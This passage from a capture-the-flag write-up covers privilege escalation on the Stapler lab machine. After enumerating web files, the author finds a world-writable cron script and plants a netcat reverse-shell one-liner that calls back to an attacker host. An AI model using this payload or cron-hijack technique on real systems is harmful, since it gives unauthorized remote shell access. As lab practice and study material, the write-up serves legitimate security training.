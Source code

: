 ![](/screenshots/stapler/allowedCommandsSHayslett.jpg)
* I did not know that such a restriction was possible, as we had always been successfully running this command when logged in as a user besides `www-data`.
* At this point in time, I had already attempted to access the web servers (see below), but could not manage to find any useful information. So let us go to `/var/www/https`:
![](/screenshots/stapler/webServerDirectoryContents.jpg)
* Opening up `custom_400.html`, we see that it is the page that had been greeting us (with status code 400).
* There is also an `index.html`, which states `Internal Index Page!`.
* The next file of interest is `robots.txt`, which states `Disallow: /admin112233/` and `Disallow: /blogblog/`. These 2 directories contain the web server files which we discover from another set of enumeration.
* This is probably the file that resulted in the additional response header about Dave:
![](/screenshots/stapler/htAccess.jpg)
* Navigating to the `/tmp` directory, I ran [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py), which gave us a whole chunk of information.
* According to ``, a noteworthy piece of information is found in the section on `World Writable Files`, where the file `/usr/local/sbin/cron-logrotate.sh` has rwx permissions for all.
* Opening up the `.sh` file shows us only a line of comment code, telling "Simon that he needs to do something about this". This reinforces the fact that we are looking at the right file - the person who put in this message for Simon probably realised what a malicious person can do with this.
![](/screenshots/stapler/cronLogRotateScript.jpg)
* Insert `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.4 1234 >/tmp/f` into `cron-logrotate.sh`, and run `nc -v -l -p 1234` on our Kali VM.
* Note: The one-liner that was inserted is taken from a [cheat sheet on reverse shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md).
* Note2: I thought of trying something simpler for the one-liner, but the `nc` running is from the `netcat-openbsd` package, which required something different: